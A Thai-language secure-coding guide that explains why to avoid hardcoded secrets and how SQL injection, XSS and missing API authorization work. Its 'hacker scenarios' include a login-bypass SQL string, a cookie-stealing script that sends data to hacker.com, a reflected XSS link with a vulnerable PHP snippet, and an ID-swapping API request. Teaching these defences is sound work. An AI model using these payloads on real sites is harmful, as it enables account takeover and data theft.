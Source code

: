 # คำอธิบายแนวทางความปลอดภัย VibeCoding: ทำไมเราถึงเน้นย้ำมาก?

เอกสารนี้อธิบายความสำคัญของแต่ละกฎใน "แนวทางความปลอดภัย" การเข้าใจนี้จะช่วยให้คุณมองโค้ดของคุณจาก "มุมมองของแฮกเกอร์" และป้องกันปัญหาก่อนที่มันจะเกิดขึ้น

---

## ⭐ กฎทองคำ

### 【ห้ามฮาร์ดโค้ดความลับ】 & 【ใช้ตัวแปรสภาพแวดล้อม】 & 【ไม่สนใจไฟล์ความลับ】

**ทำไมถึงสำคัญ?**

กฎสามข้อนี้คือกฎหมายการอยู่รอดสูงสุดของโลกดิจิทัล โค้ดของคุณ (โดยเฉพาะเมื่อใช้ Git) จะถูกคัดลอก แชร์ และเก็บไว้ในหลายที่ การเขียนรหัสผ่าน API key และ "ความลับ" อื่นๆ ลงในโค้ดโดยตรงเปรียบเสมือนการสักรหัสผ่านของตู้เซฟไว้ที่หน้าผาก - ใครก็ตามที่เห็นคุณ (เห็นโค้ด) สามารถเปิดตู้เซฟของคุณได้อย่างง่ายดาย

**สถานการณ์ของแฮกเกอร์ 😈**
> ฉันชอบค้นหา `password`, `api_key` หรือ `db_connect` ใน GitHub ฉันพบโปรเจ็กต์สาธารณะของคุณและในไฟล์ชื่อ `config.js` ฉันเห็นโค้ดนี้: `const db_password = 'Password123!';` เยี่ยม! ฉันไม่ต้องโจมตีเว็บไซต์ของคุณด้วยซ้ำ - ตอนนี้ฉันสามารถลองเชื่อมต่อกับฐานข้อมูลของคุณโดยตรงด้วยรหัสผ่านนี้

**ผลที่ตามมาอย่างร้ายแรง 💥**

**การควบคุมบริการอย่างสมบูรณ์** แฮกเกอร์สามารถขโมย แก้ไข ลบข้อมูลผู้ใช้ทั้งหมดของคุณ หรือใช้บริการ API ที่ต้องจ่ายเงินของคุณสำหรับกิจกรรมผิดกฎหมาย โดยที่ใบแจ้งหนี้ทั้งหมดจะเป็นของคุณ

---

## 📥 การจัดการข้อมูลป้อนเข้าจากผู้ใช้

### 【ป้องกันการโจมตี SQL Injection】

**ทำไมถึงสำคัญ?**

จินตนาการว่าฐานข้อมูลเป็นหุ่นยนต์ที่เข้าใจเฉพาะภาษา SQL หากคุณเชื่อมต่อข้อมูลป้อนเข้าของผู้ใช้โดยตรงกับคำสั่งของคุณ ผู้ใช้จะมีโอกาสพูด "คำสั่ง" ของตัวเองได้ การสอบถามแบบพารามิเตอร์บอกหุ่นยนต์ว่า: "ฟังนะ ส่วนถัดไปเป็น **เพียงข้อมูล** - ไม่ว่าเนื้อหาจะเป็นอย่างไร อย่ารันมันเป็นคำสั่ง"

**สถานการณ์ของแฮกเกอร์ 😈**
> ในช่องเข้าสู่ระบบของเว็บไซต์คุณ ฉันป้อน `' OR '1'='1' --` เป็นชื่อผู้ใช้ ฉันสันนิษฐานว่าการสอบถาม SQL ของคุณเขียนแบบนี้: `"SELECT * FROM users WHERE username = '" + userInput + "';` ข้อมูลป้อนเข้าของฉันแปลงมันเป็น `SELECT * FROM users WHERE username = '' OR '1'='1' --';` `'1'='1'` เป็นจริงเสมอ ดังนั้นฉันจึงหลีกเลี่ยงการตรวจสอบรหัสผ่านและเข้าสู่ระบบบัญชีผู้ใช้แรกได้สำเร็จ (มักเป็นผู้ดูแลระบบ)

**ผลที่ตามมาอย่างร้ายแรง 💥**

ผู้โจมตีสามารถหลีกเลี่ยงการเข้าสู่ระบบ ขโมยข้อมูลฐานข้อมูลทั้งหมด (รายชื่อผู้ใช้ แฮชรหัสผ่าน) หรือแม้แต่ลบฐานข้อมูล

### 【ป้องกันการโจมตี Cross-Site Scripting (XSS)】

**ทำไมถึงสำคัญ?**

หากเว็บไซต์ของคุณเป็นเหมือนกระจกที่สะท้อนเนื้อหาที่ผู้ใช้ป้อนเข้ามาโดยตรง ผู้ใช้จะสามารถฝังสคริปต์ JavaScript อันตรายในเนื้อหาได้ เมื่อผู้ใช้คนอื่นเรียกดูเนื้อหานี้ สคริปต์อันตรายจะทำงานในเบราว์เซอร์ของพวกเขา ขโมยข้อมูลของพวกเขา การเข้ารหัส HTML entity จะแปลงอักขระพิเศษในสคริปต์อันตราย (เช่น `<`, `>`) เป็นข้อความธรรมดาที่ไม่เป็นอันตราย ทำให้ไม่สามารถรันได้

**สถานการณ์ของแฮกเกอร์ 😈**
> ฉันทิ้งความคิดเห็นในส่วนความคิดเห็นของบทความของคุณ: `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>` ข้อความนี้ถูกเก็บในฐานข้อมูลตามที่เป็น ตอนนี้ผู้ใช้ที่อ่านความคิดเห็นนี้จะให้เบราว์เซอร์ของพวกเขารันสคริปต์นี้โดยอัตโนมัติ ส่งคุกกี้เข้าสู่ระบบของพวกเขาไปยังเซิร์ฟเวอร์ของฉัน ด้วยคุกกี้ ฉันสามารถปลอมเป็นพวกเขาเพื่อเข้าสู่ระบบเว็บไซต์ได้

**วิธีการโจมตีขั้นสูง: โค้ดของผู้ใช้ A สามารถขโมยข้อมูลของผู้ใช้ B ได้อย่างไร?**

หลายคนสงสัยว่า: "ผู้โจมตีไม่ได้แก้ไขเว็บไซต์ของฉัน แล้วทำไมเขาถึงขโมยข้อมูลของผู้ใช้คนอื่นได้?" ให้ฉันอธิบายด้วยตัวอย่างที่สมบูรณ์:

1. **ผู้โจมตี A สร้างลิงก์อันตราย**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **ผู้โจมตีหลอกเหยื่อ B ผ่านการจัดการทางสังคม**
   - อีเมล: "ดูผลงานที่ยอดเยี่ยมของช่างภาพคนนี้!"
   - โพสต์โซเชียลมีเดีย ความคิดเห็นในฟอรัม ฯลฯ

3. **เกิดอะไรขึ้นเมื่อเหยื่อ B คลิกลิงก์?**
   ```php
   // โค้ดของคุณ (มีช่องโหว่)
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // ผลลัพธ์จริงที่ส่งไปยังเบราว์เซอร์ของ B
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **ทำไมพวกเขาถึงขโมยข้อมูลของ B ได้?**
   - B เข้าสู่ระบบเว็บไซต์ของคุณแล้ว
   - สคริปต์อันตรายทำงานภายใต้ **โดเมนของคุณ** ดังนั้นจึงสามารถ:
     - อ่านคุกกี้ของ B (ข้อมูลรับรองการเข้าสู่ระบบ)
     - เข้าถึง localStorage ของ B
     - ส่งคำขอในนาม B
     - แก้ไขเนื้อหาหน้าเว็บ (เช่น: ฟอร์มเข้าสู่ระบบปลอม)

**การเปรียบเทียบแบบง่าย**
จินตนาการว่าเว็บไซต์ของคุณคือธนาคาร:
- ผู้โจมตี A วาง "ใบถอนเงินปลอม" (สคริปต์อันตราย) ในล็อบบี้ธนาคาร
- ลูกค้า B คิดว่ามันถูกต้องและป้อนรหัสผ่าน
- A ได้รหัสผ่านของ B

XSS ช่วยให้ผู้โจมตีสามารถวาง "ใบถอนเงินปลอม" (โค้ดอันตราย) ใน "ล็อบบี้ธนาคาร" ของคุณ (เว็บไซต์)

นี่คือเหตุผลที่คุณต้องใช้ `htmlspecialchars()` - มันรับประกันว่าข้อมูลป้อนเข้าของผู้ใช้ทั้งหมดจะแสดงเป็นข้อความธรรมดา ไม่ใช่โค้ดที่สามารถรันได้

**ผลที่ตามมาอย่างร้ายแรง 💥**

การขโมยบัญชีผู้ใช้จำนวนมาก การรั่วไหลของข้อมูลส่วนบุคคล เว็บไซต์ถูกแทรกซึมด้วยเนื้อหาฟิชชิงหรือสคริปต์ขุดเหรียญ

---

## 🔐 สิทธิ์และการยืนยันตัวตน

### 【การป้องกัน API Endpoint】

**ทำไมถึงสำคัญ?**

อินเทอร์เฟซ frontend (UI) สามารถซ่อนปุ่มได้ แต่แฮกเกอร์ไม่เคยเชื่อใจอินเทอร์เฟซ พวกเขาเรียก backend API ของคุณโดยตรงด้วยเครื่องมือ (เช่น Postman, curl) คุณต้องสมมติว่า API endpoint ทุกตัวจะถูกโจมตีโดยตรง ดังนั้น endpoint แต่ละตัวต้องเป็นผู้พิทักษ์อิสระที่ตรวจสอบตัวตนและสิทธิ์ของผู้เยี่ยมชมด้วยตัวเอง

**สถานการณ์ของแฮกเกอร์ 😈**
> ฉันค้นพบว่าในการแก้ไขข้อมูลส่วนตัว frontend ส่งคำขอไปยัง `/api/user/update` แม้ว่าฉันจะมองไม่เห็นปุ่มแก้ไขของคนอื่น แต่ฉันสันนิษฐานว่า API นี้แยกแยะผู้ใช้ผ่าน `userId` ฉันลองส่งคำขอไปยัง `/api/user/update?userId=1` (ID ของผู้ดูแลระบบ) พร้อมกับข้อมูลที่ฉันต้องการแก้ไข พระเจ้า เซิร์ฟเวอร์ไม่ได้ตรวจสอบว่าคำขอมาจากฉันโดยส่วนตัวและเปลี่ยนอีเมลของผู้ดูแลระบบได้สำเร็จ!

**ผลที่ตามมาอย่างร้ายแรง 💥**

ผู้ใช้ธรรมดาสามารถแก้ไขข้อมูลของผู้ใช้อื่นหรือแม้แต่ผู้ดูแลระบบ หรือใช้สิทธิ์ที่พวกเขาไม่ควรมี ทำให้เกิดความวุ่นวายในระบบ